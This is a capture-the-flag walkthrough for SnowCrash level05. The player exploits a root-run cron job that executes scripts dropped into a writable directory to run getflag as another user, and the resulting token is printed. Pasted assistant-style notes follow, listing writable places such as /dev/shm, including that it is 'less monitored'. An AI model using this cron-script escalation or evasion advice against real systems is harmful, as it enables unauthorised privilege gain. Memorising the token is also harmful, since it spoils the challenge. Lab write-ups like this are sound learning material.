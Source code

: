 # level05


when connect vm with ssh:

level05@192.168.182.137's password: 
You have new mail.


level05@SnowCrash:~$ ls
level05@SnowCrash:~$ ls /var/mail/
level05
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$ 

evel05@SnowCrash:/$ cd /opt/openarenaserver/
level05@SnowCrash:/opt/openarenaserver$ vi flag.sh
level05@SnowCrash:/opt/openarenaserver$ cat flag.sh
#!/bin/sh
/bin/getflag > /tmp/flag
level05@SnowCrash:/opt/openarenaserver$ ls /tmp/
ls: cannot open directory /tmp/: Permission denied
level05@SnowCrash:/opt/openarenaserver$ cd /tmp/
level05@SnowCrash:/tmp$ ls
ls: cannot open directory .: Permission denied
level05@SnowCrash:/tmp$ cat flag
Check flag.Here is your token : viuaaale9huek52boumoomioc








The line:

```bash
(ulimit -t 5; bash -x "$i")
```

is a **subshell** that performs two actions for each file in the `/opt/openarenaserver/` directory:

---

### 🔍 Breakdown:

1. **`ulimit -t 5`**
   This sets a **CPU time limit** of 5 seconds for any process launched in this shell.

   * `-t` sets the **maximum CPU time (in seconds)** that a process can use.
   * If a process exceeds this limit, it is **killed** by the system (with `SIGXCPU`).

2. **`bash -x "$i"`**
   This runs the file `"$i"` with `bash` in **debug mode** (`-x` flag).

   * Debug mode prints each command and its arguments to standard error as they are executed.
   * Useful for **troubleshooting or inspecting** what the script does.

3. **Subshell `( ... )`**
   Wrapping these two commands in parentheses runs them in a **subshell**.

   * This confines both the `ulimit` and the `bash` execution to a separate shell environment.
   * Any limits or changes inside it don’t affect the main shell or other iterations.

---

### 🧠 Summary:

This line **safely executes each script in `/opt/openarenaserver/` with a 5-second CPU time cap**, printing each executed command for debugging, and **isolates each run** from the rest using a subshell.

This is likely done to:

* Run **untrusted or temporary scripts** safely.
* **Prevent infinite loops** or long-running executions.
* **Debug** the scripts being executed.


Great question — especially in a restricted environment like **SnowCrash**, where many directories are locked down.

---

### ✅ Goal:

You want to find a directory where:

* You **have write permissions**
* You can **read the result later**
* Ideally, it's **not deleted automatically** (unlike `/tmp` on reboot)

---

### 🔍 Common places you **can** save files as `level05`:

#### 1. **Your home directory — if writable**

Try:

```bash
touch ~/testfile
```

If it works, you can use `~/output.txt` or similar.

But on SnowCrash, the home dir (`/home/level05`) is often **read-only**, so this may fail.

---

#### 2. **`/tmp` (default world-writable)**

You're already using this.

Even if you can’t `ls /tmp`, you can still:

```bash
mkdir /tmp/mystuff
echo test > /tmp/mystuff/output
```

Just remember: it's **cleared on reboot**, and world-readable unless protected.

---

#### 3. **`/dev/shm` (shared memory tmpfs)**

Try:

```bash
mkdir /dev/shm/lvl05
echo "getflag" > /dev/shm/lvl05/script.sh
```

✅ Pros:

* Usually writable by all users
* Resides in memory (faster, not persistent)
* Not as closely watched as `/tmp`

⚠️ Cons:

* Same volatility as `/tmp` (cleared on reboot)

---

#### 4. **Check for world-writable directories**

Run:

```bash
find / -type d -writable 2>/dev/null
```

Look for unusual locations like:

* `/var/tmp` (persistent across reboots, unlike `/tmp`)
* `/dev/shm`
* Any overlooked dev/test folders

⚠️ Be cautious — some folders may be writable but **monitored or trapped**.

---

### 🧠 Pro Tip:

Use `ls -ld <dir>` to check permissions. You're looking for:

```bash
drwxrwxrwt
```

or:

```bash
drwxrwx--x
```

Where you at least have write (`w`) and execute (`x`) rights.

---

### ✅ Summary:

You can safely save files in:

| Path         | Writable? | Persistent? | Notes                             |
| ------------ | --------- | ----------- | --------------------------------- |
| `/tmp`       | ✅         | ❌           | Default, safe for short-term use  |
| `/dev/shm`   | ✅         | ❌           | Fast, RAM-based, less monitored   |
| `/var/tmp`   | ✅         | ✅           | Persistent temp storage (if open) |
| Your `$HOME` | ❓         | ✅           | Depends on challenge permissions  |

---

Let me know if you want help testing any specific path or automating the write check!
